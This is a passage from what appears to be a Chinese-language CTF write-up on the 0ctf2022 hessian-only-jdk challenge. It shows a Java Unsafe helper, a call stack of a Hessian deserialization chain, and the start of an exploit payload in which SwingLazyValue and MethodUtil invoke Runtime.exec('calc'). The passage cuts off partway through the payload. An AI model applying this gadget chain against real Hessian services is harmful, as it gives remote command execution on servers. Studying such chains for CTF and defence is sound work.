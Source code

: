 ```java
    public static Unsafe getUnsafe() throws Exception{
        Class<?> aClass = Class.forName("sun.misc.Unsafe");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Unsafe unsafe= (Unsafe) declaredConstructor.newInstance();
        return unsafe;
    }
}
```
最后加载即可，**注意linux和windows生成的so文件存在区别**

调用栈：
```
dumpBytecode:107, DumpBytecode (jdk.nashorn.internal.codegen)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:71, Trampoline (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:275, MethodUtil (sun.reflect.misc)
run:1108, UIDefaults$ProxyLazyValue$1 (javax.swing)
doPrivileged:-1, AccessController (java.security)
createValue:1087, UIDefaults$ProxyLazyValue (javax.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
toString:290, MimeTypeParameterList (java.awt.datatransfer)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```

参考：[0ctf2022 hessian-only-jdk writeup jdk原生链](https://xz.aliyun.com/t/11732)

## 非预期
0ops师傅的解法是直接走的Hashtable.equals这个入口，不从tostring()走
![](https://img-blog.csdnimg.cn/192d05b8f90c4c44ada93c9b1b888f7e.png)

payload：
```java
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import com.caucho.hessian.io.*;
import java.io.*;
import java.util.HashMap;
import javax.swing.UIDefaults;
import sun.swing.SwingLazyValue;

public class Hessian_onlyJdk {
    public static void main(final String[] args) throws Exception {
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});

```